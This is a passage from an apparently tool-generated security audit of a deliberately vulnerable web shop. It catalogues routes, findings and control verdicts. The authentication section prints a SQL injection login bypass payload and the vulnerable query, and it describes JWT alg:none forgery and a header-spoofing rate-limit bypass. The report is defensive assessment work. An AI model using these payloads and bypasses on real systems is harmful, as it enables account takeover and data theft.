<tr><td style="overflow-wrap:anywhere">User-Uploaded Files</td><td style="white-space:nowrap">A-008</td><td>Internal</td><td>Complaint documents and profile images in uploads/. Zip slip can write to <code>ftp/legal.md</code>; SSRF can write arbitrary response content to public image serving path.</td><td style="overflow-wrap:anywhere">🟠 <a href="#f-005">F-005</a> — Unauthenticated Sensitive REST Routes (<code>server.ts:310</code>)<br/>🔴 <a href="#f-019">F-019</a> — Unfiltered SSRF (<code>routes/profileImageUrlUpload.ts:24</code>)<br/>🟠 <a href="#f-035">F-035</a> — Sensitive Files Publicly Served (<code>ftp/acquisitions.md:1</code>)<br/>🟠 <a href="#f-038">F-038</a> — Unauthenticated Directory Listing of <code>/support/logs</code> and <code>/encryptionkeys</code> (<code>server.ts:281</code>)<br/>🟠 <a href="#f-043">F-043</a> — Zip Slip Path Traversal in Complaint File Upload Handler (<code>routes/fileUpload.ts:44</code>)</td></tr>
<tr><td style="overflow-wrap:anywhere">Challenge Progress and Score Data</td><td style="white-space:nowrap">A-010</td><td>Internal</td><td>Challenge completion state stored in SQLite. Anti-cheat logic in <code>lib/antiCheat.ts</code>. Manipulable via direct API calls that bypass challenge verification.</td><td style="overflow-wrap:anywhere">-</td></tr>
</tbody>
</table>

---

## 5. Attack Surface

Network-reachable entry points classified by authentication requirement. Each row links to the threat(s) referenced in its **Notes** column. The **Risk** column reflects the highest-severity linked finding. Entry points with no linked finding are still listed when they sit on a sensitive surface (authentication, registration, management) or look like a missing-auth/authz suspect - marked **⚑ Review** in Notes.

### 5.1 Unauthenticated Entry Points (56)

<table style="table-layout:fixed;width:100%">
<colgroup><col style="width:9%"><col style="width:30%"><col style="width:14%"><col style="width:47%"></colgroup>
<thead><tr><th>Method</th><th>Route</th><th>Risk</th><th>Notes</th></tr></thead>
<tbody>
<tr><td>POST</td><td style="overflow-wrap:anywhere"><code>/file-upload</code></td><td>🔴 Critical</td><td>🟠 <a href="#f-045">F-045</a> — Missing Authentication on File Upload Endpoint (<code>routes/fileUpload.ts:19</code>)<br/>🟡 <a href="#f-050">F-050</a> — No Audit Logging of File Upload Events (<code>routes/fileUpload.ts:75</code>)<br/>🔴 <a href="#f-018">F-018</a> — XML External Entity Expansion (<code>routes/fileUpload.ts:83</code>)<br/>handler: <code>server.ts:309</code></td></tr>
<tr><td>POST</td><td style="overflow-wrap:anywhere"><code>/profile</code></td><td>🔴 Critical</td><td>🔴 <a href="#f-019">F-019</a> — Unfiltered SSRF (<code>routes/profileImageUrlUpload.ts:24</code>)<br/>🔴 <a href="#f-021">F-021</a> — Server-Side Template Injection (<code>routes/userProfile.ts:62</code>)<br/>🟠 <a href="#f-027">F-027</a> — Extension-Only File Type Check Permits MIME Confusion Upload (<code>routes/fileUpload.ts:68</code>)<br/>handler: <code>server.ts:664</code></td></tr>
<tr><td>POST</td><td style="overflow-wrap:anywhere"><code>/profile/image/file</code></td><td>🔴 Critical</td><td>🔴 <a href="#f-019">F-019</a> — Unfiltered SSRF (<code>routes/profileImageUrlUpload.ts:24</code>)<br/>🟠 <a href="#f-027">F-027</a> — Extension-Only File Type Check Permits MIME Confusion Upload (<code>routes/fileUpload.ts:68</code>)<br/>🟡 <a href="#f-050">F-050</a> — No Audit Logging of File Upload Events (<code>routes/fileUpload.ts:75</code>)<br/>handler: <code>server.ts:310</code></td></tr>
<tr><td>POST</td><td style="overflow-wrap:anywhere"><code>/profile/image/url</code></td><td>🔴 Critical</td><td>🔴 <a href="#f-019">F-019</a> — Unfiltered SSRF (<code>routes/profileImageUrlUpload.ts:24</code>)<br/>handler: <code>server.ts:311</code></td></tr>
<tr><td>POST</td><td style="overflow-wrap:anywhere"><code>/rest/user/login</code></td><td>🔴 Critical</td><td>🔴 <a href="#f-010">F-010</a> — SQL Injection Authentication Bypass (<code>routes/login.ts:34</code>)<br/>handler: <code>server.ts:594</code></td></tr>
<tr><td>GET</td><td style="overflow-wrap:anywhere"><code>/profile</code></td><td>🔴 Critical</td><td>🔴 <a href="#f-019">F-019</a> — Unfiltered SSRF (<code>routes/profileImageUrlUpload.ts:24</code>)<br/>🔴 <a href="#f-021">F-021</a> — Server-Side Template Injection (<code>routes/userProfile.ts:62</code>)<br/>🟠 <a href="#f-027">F-027</a> — Extension-Only File Type Check Permits MIME Confusion Upload (<code>routes/fileUpload.ts:68</code>)<br/>handler: <code>server.ts:663</code></td></tr>
<tr><td>GET</td><td style="overflow-wrap:anywhere"><code>/rest/products/search</code></td><td>🔴 Critical</td><td>🔴 <a href="#f-017">F-017</a> — SQL Injection UNION Data Extraction (<code>routes/search.ts:23</code>)<br/>🟡 <a href="#f-057">F-057</a> — Unbounded Search Query Causing Full-Table Scan (<code>routes/search.ts:23</code>)<br/>handler: <code>server.ts:600</code></td></tr>
<tr><td>GET</td><td style="overflow-wrap:anywhere"><code>/​this/​page/​is/​hidden/​behind/​an/​incredibly/​high/​paywall/​that/​could/​only/​be/​unlocked/​by/​sending/​1btc/​to/​us</code></td><td>🔴 Critical</td><td>🔴 <a href="#f-015">F-015</a> — Stored Cross-Site Scripting (<code>search-result.component.ts:132</code>)<br/>🟠 <a href="#f-023">F-023</a> — Stored Cross-Site Scripting (<code>last-login-ip.component.ts:39</code>)<br/>🔴 <a href="#f-006">F-006</a> — OAuth Implicit Flow with Derived Password (<code>oauth.component.ts:30</code>)<br/>handler: <code>server.ts:649</code></td></tr>
<tr><td>POST</td><td style="overflow-wrap:anywhere"><code>/rest/memories</code></td><td>🟠 High</td><td>🟠 <a href="#f-045">F-045</a> — Missing Authentication on File Upload Endpoint (<code>routes/fileUpload.ts:19</code>)<br/>🟠 <a href="#f-046">F-046</a> — Attacker-Controlled UserId in Memory Upload (<code>routes/memory.ts:24</code>)<br/>handler: <code>server.ts:312</code></td></tr>
<tr><td>POST</td><td style="overflow-wrap:anywhere"><code>/rest/user/data-export</code></td><td>🟠 High</td><td>🟠 <a href="#f-036">F-036</a> — Weak Password Hashing MD5 Without Salt (<code>lib/insecurity.ts:43</code>)<br/>handler: <code>server.ts:618</code></td></tr>
<tr><td>POST</td><td style="overflow-wrap:anywhere"><code>/rest/user/reset-password</code></td><td>🟠 High</td><td>🟠 <a href="#f-029">F-029</a> — Rate-Limit Bypass (<code>server.ts:346</code>)<br/>handler: <code>server.ts:596</code></td></tr>
<tr><td>GET</td><td style="overflow-wrap:anywhere"><code>/rest/user/change-password</code></td><td>🟠 High</td><td>🟠 <a href="#f-028">F-028</a> — Missing Security Audit Log for Authentication and Data Mutation Events (<code>models/index.ts:39</code>)<br/>handler: <code>server.ts:595</code></td></tr>
<tr><td>GET</td><td style="overflow-wrap:anywhere"><code>/metrics</code></td><td>🟡 Medium</td><td>🟡 <a href="#f-050">F-050</a> — No Audit Logging of File Upload Events (<code>routes/fileUpload.ts:75</code>)<br/>Management surface; handler: <code>server.ts:718</code></td></tr>
<tr><td>GET</td><td style="overflow-wrap:anywhere"><code>/redirect</code></td><td>🟡 Medium</td><td>🟡 <a href="#f-048">F-048</a> — Open Redirect (<code>lib/insecurity.ts:138</code>)<br/>handler: <code>server.ts:656</code></td></tr>
<tr><td>POST</td><td style="overflow-wrap:anywhere"><code>/</code></td><td>-</td><td>handler: <code>routes/dataErasure.ts:54</code><br/><em>⚑ Review: no auth guard detected</em></td></tr>
<tr><td>POST</td><td style="overflow-wrap:anywhere"><code>/api/Feedbacks</code></td><td>-</td><td>handler: <code>server.ts:401</code><br/><em>⚑ Review: no auth guard detected</em></td></tr>
<tr><td>GET</td><td style="overflow-wrap:anywhere"><code>/​rest/​admin/​application-​configuration</code></td><td>-</td><td>Management surface; handler: <code>server.ts:605</code><br/><em>⚑ Review: no auth guard detected</em></td></tr>
<tr><td>GET</td><td style="overflow-wrap:anywhere"><code>/​rest/​admin/​application-​version</code></td><td>-</td><td>Management surface; handler: <code>server.ts:604</code><br/><em>⚑ Review: no auth guard detected</em></td></tr>
<tr><td>PUT</td><td style="overflow-wrap:anywhere"><code>/​rest/​continue-​code-​findIt/​apply/​:​continueCode</code></td><td>-</td><td>handler: <code>server.ts:610</code><br/><em>⚑ Review: no auth guard detected</em></td></tr>
<tr><td>PUT</td><td style="overflow-wrap:anywhere"><code>/​rest/​continue-​code-​fixIt/​apply/​:​continueCode</code></td><td>-</td><td>handler: <code>server.ts:611</code><br/><em>⚑ Review: no auth guard detected</em></td></tr>
<tr><td>PUT</td><td style="overflow-wrap:anywhere"><code>/​rest/​continue-​code/​apply/​:​continueCode</code></td><td>-</td><td>handler: <code>server.ts:612</code><br/><em>⚑ Review: no auth guard detected</em></td></tr>
<tr><td>PUT</td><td style="overflow-wrap:anywhere"><code>/​rest/​order-​history/​:​id/​delivery-​status</code></td><td>-</td><td>handler: <code>server.ts:623</code><br/><em>⚑ Review: no auth guard detected</em></td></tr>
<tr><td>PUT</td><td style="overflow-wrap:anywhere"><code>/rest/wallet/balance</code></td><td>-</td><td>handler: <code>server.ts:625</code><br/><em>⚑ Review: no auth guard detected</em></td></tr>
<tr><td>POST</td><td style="overflow-wrap:anywhere"><code>/​rest/​web3/​walletExploitAddress</code></td><td>-</td><td>handler: <code>server.ts:642</code><br/><em>⚑ Review: no auth guard detected</em></td></tr>
<tr><td>POST</td><td style="overflow-wrap:anywhere"><code>/rest/web3/walletNFTVerify</code></td><td>-</td><td>handler: <code>server.ts:641</code><br/><em>⚑ Review: no auth guard detected</em></td></tr>
<tr><td>POST</td><td style="overflow-wrap:anywhere"><code>/snippets/fixes</code></td><td>-</td><td>handler: <code>server.ts:670</code><br/><em>⚑ Review: no auth guard detected</em></td></tr>
<tr><td>POST</td><td style="overflow-wrap:anywhere"><code>/snippets/verdict</code></td><td>-</td><td>handler: <code>server.ts:668</code><br/><em>⚑ Review: no auth guard detected</em></td></tr>
</tbody>
</table>

_29 further entry point(s) in this category carry no linked finding and no elevated review signal, and are not listed individually (56 total). The complete route inventory is available in `.route-inventory.json` and, when exported, `pentest-tasks.yaml`._

### 5.2 Authenticated Entry Points (53)

<table style="table-layout:fixed;width:100%">
<colgroup><col style="width:9%"><col style="width:30%"><col style="width:14%"><col style="width:47%"></colgroup>
<thead><tr><th>Method</th><th>Route</th><th>Risk</th><th>Notes</th></tr></thead>
<tbody>
<tr><td>POST</td><td style="overflow-wrap:anywhere"><code>/rest/2fa/verify</code></td><td>🔴 Critical</td><td>🟠 <a href="#f-029">F-029</a> — Rate-Limit Bypass (<code>server.ts:346</code>)<br/>🔴 <a href="#f-009">F-009</a> — JWT verify call missing algorithms allowlist (<code>routes/verify.ts:117</code>)<br/>handler: <code>server.ts:457</code></td></tr>
<tr><td>GET</td><td style="overflow-wrap:anywhere"><code>/api/Users</code></td><td>🔴 Critical</td><td>🔴 <a href="#f-019">F-019</a> — Unfiltered SSRF (<code>routes/profileImageUrlUpload.ts:24</code>)<br/>handler: <code>server.ts:362</code></td></tr>
<tr><td>POST</td><td style="overflow-wrap:anywhere"><code>/api/Users</code></td><td>🔴 Critical</td><td>🔴 <a href="#f-019">F-019</a> — Unfiltered SSRF (<code>routes/profileImageUrlUpload.ts:24</code>)<br/>handler: <code>server.ts:407</code></td></tr>
<tr><td>POST</td><td style="overflow-wrap:anywhere"><code>/b2b/v2/orders</code></td><td>🔴 Critical</td><td>🔴 <a href="#f-020">F-020</a> — JavaScript Sandbox Escape (<code>routes/b2bOrder.ts:23</code>)<br/>🟠 <a href="#f-039">F-039</a> — Event-Loop Exhaustion (<code>routes/b2bOrder.ts:23</code>)<br/>🟡 <a href="#f-049">F-049</a> — Absent Audit Logging for B2B Order Submissions (<code>routes/b2bOrder.ts:17</code>)<br/>handler: <code>server.ts:645</code></td></tr>
<tr><td>POST</td><td style="overflow-wrap:anywhere"><code>/rest/chatbot/respond</code></td><td>🔴 Critical</td><td>🔴 <a href="#f-008">F-008</a> — JWT verify call missing algorithms allowlist (<code>routes/chatbot.ts:248</code>)<br/>handler: <code>server.ts:630</code></td></tr>
<tr><td>GET</td><td style="overflow-wrap:anywhere"><code>/rest/chatbot/status</code></td><td>🔴 Critical</td><td>🔴 <a href="#f-008">F-008</a> — JWT verify call missing algorithms allowlist (<code>routes/chatbot.ts:248</code>)<br/>handler: <code>server.ts:629</code></td></tr>
<tr><td>DELETE</td><td style="overflow-wrap:anywhere"><code>/api/Products/:id</code></td><td>🟠 High</td><td>🟠 <a href="#f-044">F-044</a> — Unauthenticated Product Update (<code>server.ts:369</code>)<br/>handler: <code>server.ts:370</code></td></tr>
<tr><td>PUT</td><td style="overflow-wrap:anywhere"><code>/api/Products/:id</code></td><td>🟠 High</td><td>🟠 <a href="#f-044">F-044</a> — Unauthenticated Product Update (<code>server.ts:369</code>)<br/>handler: <code>server.ts:369</code></td></tr>
<tr><td>GET</td><td style="overflow-wrap:anywhere"><code>/api/Recycles/:id</code></td><td>🟠 High</td><td>🟠 <a href="#f-026">F-026</a> — NoSQL / ORM Injection (<code>routes/recycles.ts:14</code>)<br/>🟠 <a href="#f-042">F-042</a> — IDOR Missing Ownership Check on Recycles Endpoint (<code>routes/recycles.ts:14</code>)<br/>handler: <code>server.ts:387</code></td></tr>
<tr><td>PUT</td><td style="overflow-wrap:anywhere"><code>/api/Recycles/:id</code></td><td>🟠 High</td><td>🟠 <a href="#f-026">F-026</a> — NoSQL / ORM Injection (<code>routes/recycles.ts:14</code>)<br/>🟠 <a href="#f-042">F-042</a> — IDOR Missing Ownership Check on Recycles Endpoint (<code>routes/recycles.ts:14</code>)<br/>handler: <code>server.ts:388</code></td></tr>
<tr><td>DELETE</td><td style="overflow-wrap:anywhere"><code>/api/Recycles/:id</code></td><td>🟠 High</td><td>🟠 <a href="#f-026">F-026</a> — NoSQL / ORM Injection (<code>routes/recycles.ts:14</code>)<br/>🟠 <a href="#f-042">F-042</a> — IDOR Missing Ownership Check on Recycles Endpoint (<code>routes/recycles.ts:14</code>)<br/>handler: <code>server.ts:389</code></td></tr>
<tr><td>POST</td><td style="overflow-wrap:anywhere"><code>/api/Products</code></td><td>🟠 High</td><td>🟠 <a href="#f-044">F-044</a> — Unauthenticated Product Update (<code>server.ts:369</code>)<br/>handler: <code>server.ts:368</code></td></tr>
<tr><td>GET</td><td style="overflow-wrap:anywhere"><code>/api/Recycles</code></td><td>🟠 High</td><td>🟠 <a href="#f-026">F-026</a> — NoSQL / ORM Injection (<code>routes/recycles.ts:14</code>)<br/>🟠 <a href="#f-042">F-042</a> — IDOR Missing Ownership Check on Recycles Endpoint (<code>routes/recycles.ts:14</code>)<br/>handler: <code>server.ts:384</code></td></tr>
<tr><td>POST</td><td style="overflow-wrap:anywhere"><code>/api/Recycles</code></td><td>🟠 High</td><td>🟠 <a href="#f-026">F-026</a> — NoSQL / ORM Injection (<code>routes/recycles.ts:14</code>)<br/>🟠 <a href="#f-042">F-042</a> — IDOR Missing Ownership Check on Recycles Endpoint (<code>routes/recycles.ts:14</code>)<br/>handler: <code>server.ts:385</code></td></tr>
<tr><td>GET</td><td style="overflow-wrap:anywhere"><code>/rest/memories</code></td><td>🟠 High</td><td>🟠 <a href="#f-045">F-045</a> — Missing Authentication on File Upload Endpoint (<code>routes/fileUpload.ts:19</code>)<br/>🟠 <a href="#f-046">F-046</a> — Attacker-Controlled UserId in Memory Upload (<code>routes/memory.ts:24</code>)<br/>handler: <code>server.ts:628</code></td></tr>
<tr><td>PUT</td><td style="overflow-wrap:anywhere"><code>/api/Addresss/:id</code></td><td>-</td><td>handler: <code>server.ts:449</code><br/><em>⚑ Review: no authz guard detected</em></td></tr>
<tr><td>DELETE</td><td style="overflow-wrap:anywhere"><code>/api/Addresss/:id</code></td><td>-</td><td>handler: <code>server.ts:450</code><br/><em>⚑ Review: no authz guard detected</em></td></tr>
<tr><td>PUT</td><td style="overflow-wrap:anywhere"><code>/api/BasketItems/:id</code></td><td>-</td><td>handler: <code>server.ts:425</code><br/><em>⚑ Review: no authz guard detected</em></td></tr>
<tr><td>PUT</td><td style="overflow-wrap:anywhere"><code>/api/Cards/:id</code></td><td>-</td><td>handler: <code>server.ts:439</code><br/><em>⚑ Review: no authz guard detected</em></td></tr>
<tr><td>DELETE</td><td style="overflow-wrap:anywhere"><code>/api/Cards/:id</code></td><td>-</td><td>handler: <code>server.ts:440</code><br/><em>⚑ Review: no authz guard detected</em></td></tr>
<tr><td>GET</td><td style="overflow-wrap:anywhere"><code>/api/Cards/:id</code></td><td>-</td><td>handler: <code>server.ts:441</code><br/><em>⚑ Review: no authz guard detected</em></td></tr>
<tr><td>PUT</td><td style="overflow-wrap:anywhere"><code>/api/Feedbacks/:id</code></td><td>-</td><td>handler: <code>server.ts:432</code><br/><em>⚑ Review: no authz guard detected</em></td></tr>
<tr><td>DELETE</td><td style="overflow-wrap:anywhere"><code>/api/Quantitys/:id</code></td><td>-</td><td>handler: <code>server.ts:428</code><br/><em>⚑ Review: no authz guard detected</em></td></tr>
<tr><td>POST</td><td style="overflow-wrap:anywhere"><code>/rest/2fa/disable</code></td><td>-</td><td>handler: <code>server.ts:470</code><br/><em>⚑ Review: auth/token endpoint</em></td></tr>
<tr><td>POST</td><td style="overflow-wrap:anywhere"><code>/rest/2fa/setup</code></td><td>-</td><td>handler: <code>server.ts:464</code><br/><em>⚑ Review: auth/token endpoint</em></td></tr>
<tr><td>GET</td><td style="overflow-wrap:anywhere"><code>/rest/2fa/status</code></td><td>-</td><td>handler: <code>server.ts:462</code><br/><em>⚑ Review: auth/token endpoint</em></td></tr>
<tr><td>GET</td><td style="overflow-wrap:anywhere"><code>/rest/basket/:id</code></td><td>-</td><td>handler: <code>server.ts:601</code><br/><em>⚑ Review: no authz guard detected</em></td></tr>
<tr><td>POST</td><td style="overflow-wrap:anywhere"><code>/rest/basket/:id/checkout</code></td><td>-</td><td>handler: <code>server.ts:602</code><br/><em>⚑ Review: no authz guard detected</em></td></tr>
<tr><td>PUT</td><td style="overflow-wrap:anywhere"><code>/​rest/​basket/​:​id/​coupon/​:​coupon</code></td><td>-</td><td>handler: <code>server.ts:603</code><br/><em>⚑ Review: no authz guard detected</em></td></tr>
<tr><td>GET</td><td style="overflow-wrap:anywhere"><code>/rest/products/:id/reviews</code></td><td>-</td><td>handler: <code>server.ts:632</code><br/><em>⚑ Review: no authz guard detected</em></td></tr>
<tr><td>PUT</td><td style="overflow-wrap:anywhere"><code>/rest/products/:id/reviews</code></td><td>-</td><td>handler: <code>server.ts:633</code><br/><em>⚑ Review: no authz guard detected</em></td></tr>
</tbody>
</table>

_22 further entry point(s) in this category carry no linked finding and no elevated review signal, and are not listed individually (53 total). The complete route inventory is available in `.route-inventory.json` and, when exported, `pentest-tasks.yaml`._

---

## 7. Security Architecture

This chapter is organized by security-control category. The architecture section avoids artificial control IDs and finding-ID columns in overview tables. Findings are listed only where the affected control is described.

_[§7](#7-security-architecture) schema v2 (13-section control-category layout). Cataloged controls: 37 total - 2 adequate, 7 partial, 8 weak, 3 unsafe, 17 missing. Linked threats: 60._

**How to read the verdicts.** Every control category (and every sub-control below it) carries exactly one status. The two red verdicts do **not** mean the same thing - this is the distinction that decides what you have to do about a finding:

| Status | Meaning | What it asks of you |
|----------|------------------------------------|------------------------|
| 🟢 Adequate | Control is present and sound | Nothing - keep it |
| 🟡 Partial | Present, but with meaningful gaps | Close the gap |
| 🟠 Weak | Present, but has exploitable gaps | Strengthen it |
| 🔴 Unsafe | **Present and relied upon, but defeated /<br/>trivially bypassable** | **Fix the existing control** |
| 🔴 Missing | **Control was never built** | **Add the control** |
| - | Not applicable to this codebase | - |

So "🔴 Unsafe" on a control category does *not* mean the control is absent - it means the control exists but does not hold (e.g. an `MD5` password hash, a raw-SQL query path, a hardcoded signing key). "🔴 Missing" is reserved for controls that were never built (e.g. no Content-Security-Policy header).

### 7.1 Security Control Overview

<!-- §7.1 MECHANICAL-FROZEN — DO NOT EDIT (overview table is pregenerator-owned) -->

| Control category | Verdict | Main reason |
|----------------------|---------|------------------------------------|
| [7.2 Identity and Authentication Controls](#72-identity-and-authentication-controls) | 🔴 Unsafe | 8 routed findings; catalogued controls are<br/>present but defeated (e.g. Private key<br/>management, Password-Based Login). |
| [7.3 Session and Token Controls](#73-session-and-token-controls) | 🔴 Missing | 1 routed finding; required controls not in<br/>place (e.g. JWT algorithm restriction, JWT<br/>signing key rotation). |
| [7.4 Authorization Controls](#74-authorization-controls) | 🟠 Weak | 6 routed findings; catalogued controls are<br/>weak (e.g. Route-level authorization,<br/>Role-based access control). |
| [7.5 Query Construction and Data Access Controls](#75-query-construction-and-data-access-controls) | 🟠 Weak | 3 routed findings; catalogued controls are<br/>weak (e.g. SQL parameterization, NoSQL<br/>injection prevention). |
| [7.6 Input Boundary Validation Controls](#76-input-boundary-validation-controls) | 🔴 Missing | 4 routed findings; required controls not in<br/>place (e.g. File upload validation, SSRF<br/>prevention). |
| [7.7 Output Encoding and Rendering Controls](#77-output-encoding-and-rendering-controls) | 🟠 Weak | 5 routed findings; catalogued controls are<br/>weak (e.g. Angular XSS protection,<br/>Server-side output encoding). |
| [7.8 Browser and Cross-Origin Controls](#78-browser-and-cross-origin-controls) | 🔴 Missing | 1 routed finding; required controls not in<br/>place (e.g. CORS policy, Content Security<br/>Policy). |
| [7.9 Cryptography Secrets and Data Protection](#79-cryptography-secrets-and-data-protection) | 🔴 Unsafe | 4 routed findings; catalogued controls are<br/>present but defeated (e.g. Password hashing,<br/>Password hashing algorithm). |
| [7.10 File Parser and Outbound Request Controls](#710-file-parser-and-outbound-request-controls) | 🔴 Missing | 7 routed findings; required controls not in<br/>place (e.g. XML parser security, Archive<br/>extraction safety). |
| [7.11 Operations Runtime and Supply Chain Controls](#711-operations-runtime-and-supply-chain-controls) | 🔴 Missing | 11 routed findings; required controls not in<br/>place (e.g. Container hardening, Dependency<br/>management). |
| [7.12 Real-time and Not Applicable Controls](#712-real-time-and-not-applicable-controls) | 🔴 Missing | Required controls not in place (e.g.<br/>WebSocket authentication). |
| [7.13 Defense-in-Depth Summary](#713-defense-in-depth-summary) | - | No controls or findings routed to this<br/>category. |

<!-- §7.1 MECHANICAL-FROZEN END -->

### 7.2 Identity and Authentication Controls

**Verdict:** 🔴 Unsafe

<!-- The line below is mechanically derived from the controls table — LLM must not re-author it. -->
**Controls covered:**

- [7.2.1 Password-Based Authentication](#721-password-based-authentication)
- [7.2.2 Multi-Factor Authentication (TOTP)](#722-multi-factor-authentication-totp)
- [7.2.3 Social Login (OAuth / OIDC)](#723-social-login-oauth-oidc)

**Implemented controls:** Password-based login at `POST /rest/user/login`, TOTP enrollment and verification at `POST /rest/2fa/verify`, password reset at `POST /rest/user/reset-password`, user registration at `GET /api/Users`, and an OAuth frontend adapter in `frontend/src/app/oauth`.

**Assessment:** Authentication controls exist for every flow but are defeated at the credential-signing layer. The RSA private key used to sign all JWTs is committed in plain text at `lib/insecurity.ts:23`, and the `expressJwt` verifier at line 54 accepts any algorithm the token header names, including `alg:none`. This means the entire login boundary - password, TOTP, and OAuth - terminates in a session token that any actor with repo read access can forge. Individual flows carry additional weaknesses: the login query at `routes/login.ts:34` is injectable, and the OAuth adapter uses the implicit flow with a derived local password. Each successful authentication flow issues a session token; the signing, validation, storage, and lifecycle of that token are assessed in [§7.3 Session and Token Controls](#73-session-and-token-controls).

<!-- §7.2 AUTH-MECHANISMS-FROZEN — deterministic inventory, pregenerator-owned. DO NOT EDIT. -->
**Authentication mechanisms (at a glance).** Every authentication mechanism detected on the application, its effective status, where it is assessed, and its linked findings. Controls are catalogued by domain, so JWT/session handling is assessed under [§7.3 Session and Token Controls](#73-session-and-token-controls) and password hashing under [§7.9 Cryptography Secrets and Data Protection](#79-cryptography-secrets-and-data-protection).

| Mechanism | Status | Assessed in | Findings |
|----------------------|---------|-----------|------------------------------------------------|
| User registration | 🟡 Partial | [§7.2](#72-identity-and-authentication-controls) | - |
| Password login | 🔴 Unsafe | [§7.2](#72-identity-and-authentication-controls) | 🔴 [F-010](#f-010) — SQL Injection Authentication Bypass — `routes/login.ts:34` |
| Password reset / change | 🟡 Partial | [§7.2](#72-identity-and-authentication-controls) | - |
| Password storage (hashing) | 🔴 Missing | [§7.9](#79-cryptography-secrets-and-data-protection) | 🟠 [F-036](#f-036) — Weak Password Hashing MD5 Without Salt — `lib/insecurity.ts:43` |
| JWT / bearer-token session | 🔴 Missing | [§7.3](#73-session-and-token-controls) | 🔴 [F-001](#f-001) — Hardcoded RSA Private Key Enables JWT Forgery — `lib/insecurity.ts:54`<br/>🟠 [F-003](#f-003) — JWT Session Token Stored in localStorage — `request.interceptor.ts:13`<br/>🔴 [F-007](#f-007) — JWT verify call missing algorithms allowlist — `lib/insecurity.ts:191`<br/>🔴 [F-008](#f-008) — JWT verify call missing algorithms allowlist — `routes/chatbot.ts:248`<br/>🔴 [F-009](#f-009) — JWT verify call missing algorithms allowlist — `routes/verify.ts:117`<br/>🔴 [F-012](#f-012) — JWT Algorithm Restriction Absent in express-jwt Configuration — `lib/insecurity.ts:54` |
| Session-token storage | 🟠 Weak | [§7.3](#73-session-and-token-controls) | 🟠 [F-003](#f-003) — JWT Session Token Stored in localStorage — `request.interceptor.ts:13` |
| Multi-factor authentication (TOTP / 2FA) | 🟡 Partial | [§7.2](#72-identity-and-authentication-controls) | - |
| OAuth / OIDC federated login | 🔴 Unsafe | [§7.2](#72-identity-and-authentication-controls) | 🔴 [F-006](#f-006) — OAuth Implicit Flow with Derived Password — `oauth.component.ts:30`<br/>🟠 [F-022](#f-022) — Missing OAuth State Parameter Enables CSRF on Authorization Callback — `login.component.ts:134`<br/>🟡 [F-056](#f-056) — Missing Client-Side Rate Limiting on OAuth and Login Flows — `login.component.ts:134` |

<!-- §7.2 AUTH-MECHANISMS-FROZEN END -->

<a id="password-based-authentication"></a>
#### 7.2.1 Password-Based Authentication

**Status:** 🔴 Unsafe - the login query interpolates user input directly into raw SQL, bypassing credential verification entirely.

This block covers all password-credential flows: Login (`POST /rest/user/login`), Registration (`POST /api/Users`), Password Reset (`POST /rest/user/reset-password`), Password Change, and credential storage (password hashing).

The diagram shows the intended successful login path from credential submission to JWT issuance:

```mermaid
sequenceDiagram
    autonumber
    actor User
    participant SPA as Angular SPA
    participant API as POST /rest/user/login
    participant DB as SQLite Users table
    participant Issuer as issueAuthToken()

    User->>SPA: Submit email + password
    SPA->>API: POST { email, password }
    API->>DB: SELECT WHERE email AND password_hash match
    DB-->>API: User record
    API->>Issuer: Sign { id, email, role }
    Issuer-->>API: RS256 JWT
    API-->>SPA: { token, bid, umail }
```

**Security assessment**

- **Login:** `routes/login.ts:34` interpolates `req.body.email` into a raw `models.sequelize.query()` string. The payload `' OR '1'='1` short-circuits the WHERE clause and returns the seeded admin row, granting admin-level access with no valid credential. Brute-force controls are absent on the login route (see 🟠 [F-023](#f-023) — Stored Cross-Site Scripting — `last-login-ip.component.ts:39`).
- **Registration:** `POST /api/Users` is a Finale REST resource that accepts a JSON body with `email`, `password`, and optionally `role`. No email domain validation or CAPTCHA is enforced; the `role` field is accepted by the Sequelize model without stripping, allowing any caller to self-assign `admin` at registration time.
- **Password Reset:** `routes/resetPassword.ts` implements reset as a single-step security-question challenge — no emailed link, no expiring token, no secondary verification. The rate-limit middleware on this route is bypassable via `X-Forwarded-For` header spoofing (see 🟠 [F-029](#f-029) — Rate-Limit Bypass — `server.ts:346`), and answers to common questions are guessable from public profiles.
- **Credential Storage:** Passwords are hashed with unsalted `MD5` at `lib/insecurity.ts:43` before storage and comparison. Any dump obtained through the SQL injection immediately converts to plaintext via rainbow table (see [§7.9.2 Password hashing algorithm](#password-hashing-algorithm)).

The raw SQL construction at the authentication boundary:

```ts
models.sequelize.query(
  `SELECT * FROM Users WHERE email = '${req.body.email}'` +
  ` AND password = '${hash(req.body.password)}' AND deletedAt IS NULL`
)
```

**Relevant findings**

- 🔴 [F-006](#f-006) — The OAuth adapter terminates in the same login endpoint and inherits the SQL injection path.
- 🔴 [F-010](#f-010) — SQL injection in the login query allows full authentication bypass via a crafted email value.
- 🟠 [F-022](#f-022) — The OAuth flow lacks a state parameter, enabling CSRF on the authorization callback that feeds into this endpoint.
- 🟠 [F-023](#f-023) — Brute-force controls are absent on the login route.
- 🟠 [F-036](#f-036) — Unsalted MD5 hashing means credential dumps from the injection are immediately recoverable.

<a id="multi-factor-authentication"></a><a id="multi-factor-authentication-totp"></a>
#### 7.2.2 Multi-Factor Authentication (TOTP)

**Status:** 🟡 Partial - TOTP enrollment and verification are implemented but not enforced for privileged accounts.

Detected in scope: POST `/rest/2fa/verify`

TOTP-based second-factor authentication is available as an opt-in feature. `POST /rest/2fa/verify` at `routes/2fa.ts` accepts a TOTP token alongside the session JWT, verifies it with `speakeasy.totp.verify()`, and returns a new JWT. Enrollment is handled by a separate set of routes that generate a TOTP secret and return a QR code to the user.

```mermaid
sequenceDiagram
    autonumber
    actor User
    participant SPA as Angular SPA
    participant API as POST /rest/2fa/verify
    participant TOTP as speakeasy.totp.verify()
    participant Issuer as issueAuthToken()

    User->>SPA: Enter 6-digit TOTP code
    SPA->>API: POST { token: TOTP, tmpToken: first-factor }
    API->>TOTP: Verify code against stored secret
    TOTP-->>API: Valid
    API->>Issuer: Sign { id, email, role, totpVerified: true }
    Issuer-->>API: RS256 JWT
    API-->>SPA: { token }
```

**Security assessment**

